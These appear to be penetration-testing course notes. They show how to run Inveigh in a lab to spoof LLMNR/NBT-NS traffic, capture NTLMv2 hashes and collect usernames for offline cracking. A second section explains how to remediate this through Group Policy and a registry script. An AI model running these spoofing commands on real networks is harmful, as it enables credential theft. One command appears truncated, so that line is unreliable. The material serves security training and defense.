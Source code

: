 ## Inveigh - Overview
We can get started with the PowerShell version as follows and then list all possible parameters. There is a [wiki](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters) that lists all parameters and usage instructions.

## Using Inveigh
```powershell
PS C:\htb> Import-Module .\Inveigh.ps1
PS C:\htb> (Get-Command Invoke-Inveigh).Parameters

Key                     Value
---                     -----
ADIDNSHostsIgnore       System.Management.Automation.ParameterMetadata
KerberosHostHeader      System.Management.Automation.ParameterMetadata
ProxyIgnore             System.Management.Automation.ParameterMetadata
PcapTCP                 System.Management.Automation.ParameterMetadata
PcapUDP                 System.Management.Automation.ParameterMetadata
SpooferHostsReply       System.Management.Automation.ParameterMetadata
SpooferHostsIgnore      System.Management.Automation.ParameterMetadata
SpooferIPsReply         System.Management.Automation.ParameterMetadata
SpooferIPsIgnore        System.Management.Automation.ParameterMetadata
...
```

Let's start Inveigh with LLMNR and NBNS spoofing, and output to the console and write to a file. We will leave the rest of the defaults, which can be seen [here](https://github.com/Kevin-Robertson/Inveigh#parameter-help).
```powershell
PS C:\htb> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
## C# Inveigh (InveighZero)
```powershell
PS C:\htb> .\Inveigh.exe
```
We can also see the message `Press ESC to enter/exit interactive console`, which is very useful while running the tool. The console gives us access to captured credentials/hashes, allows us to stop Inveigh, and more.
We can hit the `esc` key to enter the console while Inveigh is running.

```powershell
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[.] [20:10:24] TCP(1433) SYN packet from 172.16.5.125:61310
[.] [20:10:24] TCP(1433) SYN packet from 172.16.5.125:61311
C(0:0) NTLMv1(0:0) NTLMv2(3:9)> HELP
```
We can quickly view unique captured hashes by typing `GET NTLMV2UNIQUE`.
We can type in `GET NTLMV2USERNAMES` and see which usernames we have collected. This is helpful if we want a listing of users to perform additional enumeration against and see which are worth attempting to crack offline using Hashcat.

## Remediation
To ensure that these spoofing attacks are not possible, we can disable LLMNR and NBT-NS. As a word of caution, it is always worth slowly testing out a significant change like this to your environment carefully before rolling it out fully. As penetration testers, we can recommend these remediation steps, but should clearly communicate to our clients that they should test these changes heavily to ensure that disabling both protocols does not break anything in the network.

We can disable LLMNR in Group Policy by going to Computer Configuration --> Administrative Templates --> Network --> DNS Client and enabling "Turn OFF Multicast Name Resolution."
![[Pasted image 20251027161749.png]]

NBT-NS cannot be disabled via Group Policy but must be disabled locally on each host. We can do this by opening `Network and Sharing Center` under `Control Panel`, clicking on `Change adapter settings`, right-clicking on the adapter to view its properties, selecting `Internet Protocol Version 4 (TCP/IPv4)`, and clicking the `Properties` button, then clicking on `Advanced` and selecting the `WINS` tab and finally selecting `Disable NetBIOS over TCP/IP`.
![[Pasted image 20251027161808.png]]

While it is not possible to disable NBT-NS directly via GPO, we can create a PowerShell script under Computer Configuration --> Windows Settings --> Script (Startup/Shutdown) --> Startup with something like the following:
```powershell
$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces"
Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}
```
In the Local Group Policy Editor, we will need to double click on `Startup`, choose the `PowerShell Scripts` tab, and select "For this GPO, run scripts in the following order" to `Run Windows PowerShell scripts first`, and then click on `Add` and choose the script. For these changes to occur, we would have to either reboot the target system or restart the network adapter.
![[Pasted image 20251027161906.png]]
To push this out to all hosts in a domain, we could create a GPO using `Group Policy Management` on the Domain Controller and host the script on the SYSVOL share in the scripts folder and then call it via its UNC path such as:

`\\inlanefreight.local\SYSVOL\INLANEFREIGHT.LOCAL\scripts`

Other mitigations include filtering network traffic to block LLMNR/NetBIOS traffic and enabling SMB Signing to prevent NTLM relay attacks. Network intrusion detection and prevention systems can also be used to mitigate this activity, while network segmentation can be used to isolate hosts that require LLMNR or NetBIOS enabled to operate correctly.

